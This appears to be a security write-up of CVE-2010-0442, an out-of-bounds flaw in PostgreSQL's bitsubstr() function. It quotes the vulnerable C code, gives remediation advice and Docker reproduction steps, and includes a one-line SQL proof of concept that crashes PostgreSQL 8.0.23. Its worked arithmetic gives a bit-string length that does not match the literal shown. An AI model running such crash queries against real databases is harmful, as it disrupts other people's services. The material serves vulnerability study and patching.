


# CVE-2010-0442 CWE-189 PostgreSQL buffer overflow

## Vulnerability Background
- **substring() function** :P used in ostgreSQL to handle `bit`-type data and extract substrings from a string.

## Vulnerability Mechanism
In PostgreSQL, when calling the `substring()` function to operate on `bit` data types, without proper boundary checking, negative lengths cause memory access to go out of boundary, triggering buffer overflow issues. Attackers can carefully construct malicious `bit` inputs that cause incoming data to contain incorrect boundary checks or invalid lengths (such as negative values), causing PostgreSQL to crash or more severe memory corruption during operations.

In this case, the bitwise (`bit`) and offset and length parameters provided by the `substring` function may cause out-of-bounds access to the internal buffer in PostgreSQL, which is a typical buffer overflow issue.

## Vulnerability Location
In the **src\backend\utils\adt\varbit.c** file, line **790**, the `bitsubstr` function is used to extract substrings from bit strings

```c
/* bitsubstr
 * retrieve a substring from the bit string.
 * Note, s is 1-based.
 * SQL draft 6.10 9)
 */
Datum
bitsubstr(PG_FUNCTION_ARGS)
{
	VarBit	   *arg = PG_GETARG_VARBIT_P(0);
	int32		s = PG_GETARG_INT32(1);
	int32		l = PG_GETARG_INT32(2);
	VarBit	   *result;
	int			bitlen,
				rbitlen,
				len,
				ipad = 0,
				ishift,
				i;
	int			e,
				s1,
				e1;
	bits8		mask,
			   *r,
			   *ps;

	bitlen = VARBITLEN(arg);  // Obtain the bit string length
	/* If we do not have an upper bound, set bitlen */
	if (l == -1)  // Handle cases where the substring length is negative
		l = bitlen;
	e = s + l;  // Calculate the end position
	s1 = Max(s, 1);  // Adjust the start and end positions
	e1 = Min(e, bitlen + 1);
	if (s1 > bitlen || e1 < 1)  // Check if it is out of range
	{
		/* Need to return a zero-length bitstring */
		len = VARBITTOTALLEN(0);
		result = (VarBit *) palloc(len);
		VARATT_SIZEP(result) = len;
		VARBITLEN(result) = 0;
	}
	else
	{
		/*
		 * OK, we've got a true substring starting at position s1-1 and
		 * ending at position e1-1
		 */
		rbitlen = e1 - s1;  // Calculate the length of the result bit string
		len = VARBITTOTALLEN(rbitlen);  // Calculate the total length of the resulting bit string (including header information)
		result = (VarBit *) palloc(len);  //Allocate memory
		VARATT_SIZEP(result) = len;
		VARBITLEN(result) = rbitlen;
		len -= VARHDRSZ + VARBITHDRSZ;
		/* Are we copying from a byte boundary? */
		if ((s1 - 1) % BITS_PER_BYTE == 0)
		{
			/* Yep, we are copying bytes */
			memcpy(VARBITS(result), VARBITS(arg) + (s1 - 1) / BITS_PER_BYTE,
				   len);
		}
		else
		{
			/* Figure out how much we need to shift the sequence by */
			ishift = (s1 - 1) % BITS_PER_BYTE;
			r = VARBITS(result);
			ps = VARBITS(arg) + (s1 - 1) / BITS_PER_BYTE;
			for (i = 0; i < len; i++)
			{
				*r = (*ps << ishift) & BITMASK;
				if ((++ps) < VARBITEND(arg))
					*r |= *ps >> (BITS_PER_BYTE - ishift);
				r++;
			}
		}
		/* Do we need to pad at the end? */
		ipad = VARBITPAD(result);
		if (ipad > 0)
		{
			mask = BITMASK << ipad;
			*(VARBITS(result) + len - 1) &= mask;
		}
	}

	PG_RETURN_VARBIT_P(result);
}
```

When `SELECT substring(bit_string, s, l)` is executed, `bitsubstr` functions are called to extract substrings from bitstrings:

- `bit_string`: The bit string of input.
- `s`: The starting position of the substring (1-based index).
- `l`: The length of the substring.

When passing a parameter of negative length, when calculating the length rbitlen of the result bit string, the value will be calculated as negative, but the function does not check whether rbitlen is negative, causing the function to process data incorrectly and trigger buffer overflow and other security issues.

The fixed code adds checks for negative lengths, ensuring the function can correctly report errors and terminate execution when encountering such situations

## Remediation

Upgrade to a current supported PostgreSQL release containing the corrected `bitsubstr()` arithmetic. The fix checks the substring start and length before evaluating `s + l`, performs the calculations in a range that cannot wrap, and rejects a result whose bit or allocation length exceeds PostgreSQL's maximum varlena size.

All versions discussed in this document are end of life and should not be kept in production. Until migration is complete, revoke access to bit-string substring operations from untrusted database roles where practical, validate application-supplied offsets and lengths, and prevent direct arbitrary SQL access.

## Affected Versions
PostgreSQL 8.0.23 or earlier

## Environment Setup
Using Ubuntu 16.04 as the base image, download and install PostgreSQL 8.0.23



## Vulnerability Reproduction
1. Enter the Docker container command line and use the postgres user to create the database testdb

```bash
docker exec -it postgres-8.0.23 /bin/sh
```

```sh
createdb -U postgres testdb
```

2. Use the psql tool to connect to the Postgres user's testdb database

```sh
psql -d testdb -U postgres
```

3. Construct a specific SQL query and use the `substring()` function to perform operations on `bit` type of data, causing PostgreSQL to crash

```sql
SELECT substring(B'10101010101010101010101010101010101010101010101', 33, -15);
```



## PoC Analysis

```sql
SELECT substring(B'10101010101010101010101010101010101010101010101', 33, -15);
```

This query attempts to extract substrings from a literal of type `bit`. The second parameter (`33`) indicates the starting position, while the third parameter (`-15`) indicates length. `substring` functions call `bitsubstr` functions when processing bit strings:

- bitlen is set to 40 because the input bit string length is 40, s is 33, and l is -15.
- End position e = s + l = 33 + (-15) = 18
- Starting position s1 = Max(33, 1) = 33, ending position e1 = Min(18, 40 + 1) = 18
- Length of the result bit string: rbitlen = e1 - s1 = 18 - 33 = -15

Here, a problem arises: `rbitlen` is negative, which is logically unreasonable. Subsequent copy operations may be based on negative lengths, leading to incorrect memory access or buffer overflow.

Therefore, because PostgreSQL does not properly check the boundaries for this operation, the negative length causes memory access to go out of boundary, triggering the buffer overflow issue.

## References
[PostgreSQL - 'bitsubstr' Buffer Overflow - Linux dos Exploit](https://www.exploit-db.com/exploits/33571)

[Source code installation of Postgresql 8.2.0-CSDN on Ubuntu 6.06 server](https://blog.csdn.net/shaken/article/details/1452329)

[PostgreSQL: pgsql: Make bit/varbit substring() treat any negative length as a representation--- PostgreSQL: pgsql: Make bit/varbit substring() treat any negative length as meaning](https://www.postgresql.org/message-id/20100107195339.A17B07541B9@cvs.postgresql.org)

[anoncvs.postgresql.org/cvsweb.cgi/pgsql/src/backend/utils/adt/varbit.c?r1=1.44.4.2&r2=1.44.4.3](https://anoncvs.postgresql.org/cvsweb.cgi/pgsql/src/backend/utils/adt/varbit.c?r1=1.44.4.2&r2=1.44.4.3)
